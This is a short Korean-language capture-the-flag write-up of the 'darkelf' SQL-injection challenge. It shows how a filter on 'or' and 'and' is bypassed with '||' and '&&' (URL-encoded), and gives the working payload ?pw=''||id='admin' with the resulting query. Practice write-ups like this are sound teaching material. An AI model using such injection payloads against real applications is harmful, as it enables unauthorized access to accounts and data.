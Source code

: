 ## Q6. darkelf _ OR/AND 우회
<img src="/photo/prob_06.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: or / and <br> 문제 사항: 쿼리에 id=admin을 만들어내라.
### 해결책

```
현재 쿼리문에서 id='guest'로 고정되어 있음
=> pw에 id컬럼 만들어 admin 적용
=> or이 제한됨 
=> || 이용
```
```
해결 쿼리문: where id='guest' and pw=''||id='admin'
```
### CERT <br> ?pw=''||id='admin

### 느낀점
```diff
+ OR -> ||
+ AND -> &&( %26%26 )
+ OR / AND 우회 방법을 배웠다.
```

